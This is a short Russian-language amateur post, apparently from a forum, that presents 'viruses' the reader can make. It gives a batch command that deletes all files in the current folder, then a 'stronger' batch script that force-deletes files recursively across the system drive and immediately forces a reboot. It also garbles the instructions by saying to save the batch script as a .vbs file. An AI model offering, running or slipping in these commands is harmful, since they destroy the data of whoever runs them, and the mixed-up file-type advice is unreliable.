

Виды вирусов : exe vbs bat которые я знаю Вот ваш первый вирус del *.* удалять всё , вот это *.* что мы удаляем то есть всё 
Записываем как bat
Вот ваш более сильный вирус
@echo off
del %systemdrive%*.* /f /s /q
shutdown -r -f -t 00 "записываем как vbs"